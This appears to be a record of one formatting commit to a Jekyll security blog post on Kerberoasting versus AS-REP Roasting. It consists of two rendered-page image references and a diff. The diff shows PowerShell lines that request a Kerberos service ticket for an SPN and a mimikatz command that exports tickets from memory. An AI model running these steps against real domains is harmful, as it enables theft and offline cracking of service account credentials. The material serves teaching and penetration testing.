

Before and after one commit to LuemmelSec/LuemmelSec.github.io, a Jekyll site: the page built from _posts/2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md, in a window 1280 px wide and 900 px high, scrolled down 4796 px. Shown: the whole window, without its empty margins (248-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md

`````diff
--- a/_posts/2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md
+++ b/_posts/2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md
@@ -117,10 +117,10 @@
 Having a look at the PowerView section above we are already able to query the desired **SPNs**.
 Next step is to query for the **ST** which can be done with two lines of powershell:
 
-````
+```powershell
 Add-Type –AssemblyName System.IdentityModel
 New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken –ArgumentList ‘<SPN-name>:<SPN-port>’
-````
+```
 
 In order to extract the ticket from memory we use mimikatz:
 ````kerberos::list /export````
`````
